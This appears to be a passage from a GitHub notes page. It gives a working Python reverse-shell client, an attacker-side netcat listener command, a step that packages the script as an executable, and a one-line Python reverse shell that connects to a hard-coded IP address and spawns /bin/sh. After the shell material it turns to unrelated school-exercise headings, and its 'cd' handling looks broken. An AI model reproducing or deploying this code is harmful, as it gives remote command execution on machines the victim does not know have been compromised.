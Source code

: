 ```
        s.connect((host, port))
    except socket.error as msg:
        print("Socket connection error: " + str(msg))


# Receive commands from remote server and run on local machine
def receive_commands():
    global s
    while True:
        data = s.recv(1024)
        if data[:2].decode("utf-8") == 'cd':
            os.chdir(data[:3].decode("utf-8"))
        if len(data) > 0:
            cmd = subprocess.Popen(data[:].decode("utf-8"), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
            output_bytes = cmd.stdout.read() + cmd.stderr.read()
            output_str = str(output_bytes, "utf-8")
            s.send(str.encode(output_str + str(os.getcwd()) + '> '))
            print(output_str)
    s.close()

def main():
    socket_create()
    socket_connect()
    receive_commands()

main()
```        

### Open Listener on Attacker Machine and wait for a session…

`nc -nlvp 9999`

### Create Executable (exe ? )  from Python

`sudo pyinstaller --onefile reverseshell.py`


### Python One Line Reverse Shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("35.226.248.77",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```



# School related exercies


## Some basic concepts in Python
